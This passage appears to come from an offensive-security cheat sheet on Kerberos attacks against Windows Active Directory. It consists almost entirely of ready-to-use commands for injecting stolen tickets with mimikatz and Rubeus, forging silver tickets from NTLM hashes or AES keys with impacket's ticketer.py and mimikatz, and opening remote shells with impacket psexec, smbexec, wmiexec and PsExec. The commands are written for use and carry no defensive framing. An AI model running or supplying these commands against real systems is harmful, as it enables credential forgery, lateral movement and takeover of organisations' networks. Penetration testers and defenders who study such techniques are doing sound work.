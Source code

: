 ```c
$ impacket-psexec <DOMAIN>/<USERNAME>@<RHOST> -k -no-pass
$ impacket-smbexec <DOMAIN>/<USERNAME>@<RHOST> -k -no-pass
$ impacket-wmiexec <DOMAIN>/<USERNAME>@<RHOST> -k -no-pass
```

**Using Ticket on Windows**

**Inject Ticket with mimikatz**

```c
mimikatz # kerberos::ptt <KIRBI_FILE>
```

**Inject Ticket with Rubeus**

```c
C:\> .\Rubeus.exe ptt /ticket:<KIRBI_FILE>
```

**Execute a CMD on Remote Host**

```c
C:\> .\PsExec.exe -accepteula \\<RHOST> cmd
```

**Silver Ticket**

**Impacket Examples**

**Generate TGS with NTLM**

```c
$ python ticketer.py -nthash <NTLMHASH> -domain-sid <SID> -domain <DOMAIN> -spn <SPN>  <USERNAME>
```

**Generate TGS with aesKey**

```c
$ python ticketer.py -aesKey <KEY> -domain-sid <SID> -domain <DOMAIN> -spn <SPN>  <USERNAME>
```

**Set the ticket for impacket use**

```c
$ export KRB5CCNAME=<USERNAME>.ccache
```

**Execute Remote Commands by using TGT**

```c
$ impacket-psexec <DOMAIN>/<USERNAME>@<RHOST> -k -no-pass
$ impacket-smbexec <DOMAIN>/<USERNAME>@<RHOST> -k -no-pass
$ impacket-wmiexec <DOMAIN>/<USERNAME>@<RHOST> -k -no-pass
```

**mimikatz Examples**

**Generate TGS with NTLM**

```c
mimikatz # kerberos::golden /domain:<DOMAIN>/sid:<SID> /rc4:<NTLMHASH> /user:<USERNAME> /service:<SERVICE> /target:<RHOST>
```

